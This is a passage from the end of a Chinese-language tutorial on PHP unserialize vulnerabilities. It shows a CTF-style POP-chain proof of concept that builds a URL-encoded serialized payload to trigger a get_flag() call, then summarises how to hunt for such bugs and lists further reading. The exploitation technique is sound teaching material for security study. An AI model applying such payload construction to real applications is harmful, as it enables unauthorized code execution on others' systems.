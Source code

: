 ```php
                $this->mod1= new string1();//把 $mod1赋值为string1类对象

        }
        public function __invoke()
        {        
                $this->mod2 = "字符串拼接".$this->mod1;
        } 
}
class string1
{
        public $str1;
        public function __construct()
        {
                $this->str1= new GetFlag();//把 $str1赋值为GetFlag类对象          
        }
        public function __toString()
        {        
                $this->str1->get_flag();
                return "1";
        }
}
class GetFlag
{
        public function get_flag()
        {
                echo "flag:"."xxxxxxxxxxxx";
        }
}
$b = new start_gg;//构造start_gg类对象$b
echo urlencode(serialize($b))."<br />";//显示输出url编码后的序列化对象
```

输出payload后传参，成功执行get_flag()

![null](1545287095843.png)

另外推荐一下柠檬师傅博客的那道题

> http://www.cnblogs.com/iamstudy/articles/php_unserialize_pop_2.html
> https://cl0und.github.io/2017/10/01/POP%E9%93%BE%E5%AD%A6%E4%B9%A0/

## 0x05 小结

反序列化漏洞一般都是在白盒审计时发现并利用，需要构造PHP序列化代码，利用条件比较苛刻。

总结一下PHP反序列化的挖掘思路，首先进行反序列化的数据点是用户可控的，然后反序列化类中需要有魔术方法，魔术方法中存在敏感操作，或者魔术方法中无敏感操作，但是其对象调用了其他类中的同名函数，可以通过构造POP链利用。

另外再贴一些相关文章，希望对大家有所帮助

> https://xz.aliyun.com/t/3336
> https://xz.aliyun.com/t/2733
> https://www.anquanke.com/post/id/162300